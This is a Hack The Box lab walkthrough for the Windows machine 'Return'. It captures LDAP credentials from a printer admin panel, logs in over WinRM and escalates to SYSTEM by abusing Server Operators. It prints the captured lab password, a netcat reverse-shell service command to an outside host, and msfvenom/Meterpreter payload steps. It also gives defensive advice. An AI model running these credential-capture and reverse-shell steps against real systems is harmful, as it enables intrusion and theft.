




# HTB - Return

**IP Address:** `10.10.11.108`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** #SMB, #LDAP, #WinRM, #ServiceAbuse, #ServerOperators, #PrivilegeEscalation

---

## Synopsis

Return is an easy Windows machine featuring a **network printer administration panel** that stores **LDAP credentials**.  
By configuring the panel to point to a rogue LDAP server under our control, we can capture these credentials.  
The retrieved account has **WinRM** access and belongs to the **Server Operators** group, which allows modification of service executables to escalate privileges to SYSTEM.  

This machine demonstrates the risks of exposed printer management interfaces, credential harvesting, and privilege escalation via Windows service abuse.

---

## Skills Required

- Basic Windows enumeration knowledge  
- Familiarity with SMB, WinRM, and LDAP  
- Beginner Active Directory knowledge  
- Understanding of Windows service permissions and abuse techniques

---

## Skills Learned

- Enumerating Windows shares without credentials  
- Identifying and abusing printer LDAP configuration to leak domain credentials  
- Authenticating to Windows hosts using WinRM  
- Exploiting the **Server Operators** group for privilege escalation  
- Using `msfvenom` and Metasploit for a stable Meterpreter session

---

## 1. Initial Enumeration

Before interacting with the target, we first verify connectivity and identify open services to plan our attack path.

---

### 1.1 Connectivity Test

We start with an ICMP ping to check if the host is reachable and to get an initial response time:

```bash
ping -c 1 10.10.11.108
```


The host responds, confirming it is online and reachable through our VPN connection.

---

### 1.2 Port Scanning

We perform a **full TCP port scan** to identify all open ports and exposed services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.108 -oG allPorts
```

**Options explained:**
- `-p-` → Scan all 65,535 ports.  
- `--open` → Show only ports that are open.  
- `-sS` → SYN scan, fast and stealthy.  
- `--min-rate 5000` → Send at least 5000 packets per second for speed.  
- `-n` → Skip DNS resolution.  
- `-Pn` → Treat host as alive (skip host discovery).  
- `-oG allPorts` → Output in grepable format for later parsing.



Once the scan is finished, we extract the list of open ports into a comma-separated format for targeted scanning:

```bash
extractPorts allPorts
```


---

### 1.3 Targeted Scan

Using the list of open ports, we run a **version detection** and **default script** scan to gather more information:

```bash
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49668,49671,49676,49677,49681,49684,49696 10.10.11.108 -oN targeted
```

**Options explained:**
- `-sC` → Run default NSE scripts for common service enumeration.  
- `-sV` → Detect service versions.  
- `-oN targeted` → Output results in a readable file.

Let's review the result:

```bash
cat targeted -l java
```



**Findings:**

| Port     | Service              | Description                                    |
|----------|---------------------|------------------------------------------------|
| 53       | DNS                  | Domain Name System                             |
| 80       | HTTP                 | Microsoft IIS web server                       |
| 88       | Kerberos             | Authentication protocol                        |
| 135      | MS RPC               | Microsoft RPC endpoint mapper                  |
| 139      | NetBIOS Session      | Legacy SMB session service                     |
| 389      | LDAP                 | Directory Services                             |
| 445      | SMB                  | File and printer sharing                       |
| 5985     | WinRM                | Windows Remote Management HTTP                 |
| 3268     | Global Catalog       | Active Directory Global Catalog                |
| 9389     | AD Web Services      | Web-based access to Active Directory           |
| 47001+   | RPC Dynamic Ports    | High ports used by RPC and dynamic services    |

From these results, the key services of interest are:
- **SMB (445)** for possible share enumeration.
- **HTTP (80)** for web content inspection.
- **LDAP (389)** which might expose sensitive information.
- **WinRM (5985)** which could allow remote command execution if valid credentials are found.

---

## 2. SMB & Web Enumeration

### 2.1 SMB Null Session Check

We start with SMB enumeration to see if anonymous access is allowed:

```bash
crackmapexec smb 10.10.11.108
```


Then, we try listing available shares without credentials:

```bash
smbclient -L 10.10.11.108 -N
smbmap -H 10.10.11.108 -u none
```



**Result:** SMB requires authentication; null sessions are not allowed.

---

### 2.2 Web Interface Discovery

Accessing `http://10.10.11.108` reveals a **network printer administration panel**:


Navigating to **Settings** shows configuration fields for server addresses:


> **Note:** Enterprise multifunction printers (Canon, Xerox, Epson, etc.) often store **LDAP** and **SMB** credentials for Active Directory queries and network file storage.

We identify two possible attack paths:
1. Updating the password to gain SMB access.
2. Specifying our own server address to capture credentials.

We proceed with option 2.

---

## 3. Credential Extraction via LDAP Upload

We set up a listener on LDAP port 389:

``` bash
nc -nlvp 389
```

Next, we change the printer's **Server address** to our attacker machine IP:


Clicking **Upload** triggers the printer to connect to our listener, sending stored credentials in the process:


**Credentials obtained:**
- **User:** `svc-printer`
- **Password:** `1edFg43012!!`

---

### 3.1 Validating the Credentials

We verify the credentials over SMB:

```bash
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```


The account exists.

We check for WinRM access:

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```


---

### 3.2 WinRM Access

With valid credentials and WinRM open, we gain a shell:

```bash
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```


🏁 **User flag obtained**

---

## 4. Privilege Escalation

### 4.1 Privilege & Group Enumeration

We check the account’s privileges and group memberships:

```bash
whoami /priv
net user svc-printer
```



The account belongs to the **Server Operators** group.

> **Server Operators** can start, stop, and reconfigure services.  
> Reference: [Microsoft Docs - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

List current services:

```bash
services
```


---

### 4.2 Uploading Payload

We upload `nc.exe` to the target:


---

### 4.3 Service Abuse (Option 1 - Netcat Reverse Shell)

Attempt to create a new service:

```bash
sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.7 443"
```

If creation fails, modify an existing one (e.g., `VMTools`):


```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.7 443"
```


---

### 4.4 Gaining SYSTEM Shell

On our machine, listen for incoming connection:

```bash
nc -nlvp 443
```

Restart the modified service:

```bash
sc.exe stop VMTools
sc.exe start VMTools
```

🏁 **Root flag obtained**  


---

### 4.5 Alternative Stable Method (Meterpreter)

Generate a Meterpreter payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1337 -f exe > shell.exe
```

Upload the payload:

```bash
upload shell.exe
```

Modify service to run payload:

```bash
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"
sc.exe stop vss
sc.exe start vss
```

Set up Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 1337
run
```

After receiving the session, migrate to a SYSTEM process:

```meterpreter
ps
migrate <PID>
```

---
# ✅ MACHINE COMPLETE

---

## Summary of Exploitation Path

1. **Port Scanning** → Identified SMB, HTTP, LDAP, and WinRM.  
2. **Web Enumeration** → Found printer panel with LDAP settings.  
3. **Credential Capture** → Used rogue LDAP server to obtain `svc-printer` credentials.  
4. **WinRM Access** → Logged in with captured credentials.  
5. **Privilege Escalation** → Abused Server Operators group to run arbitrary binary as SYSTEM.  
6. **Alternative** → Meterpreter payload for more stable access.

---

## Defensive Recommendations

- Restrict printer management interfaces to trusted networks.  
- Remove stored credentials from device configurations.  
- Limit membership of Server Operators group.  
- Monitor service configuration changes.  
- Restrict outbound LDAP traffic to trusted hosts.
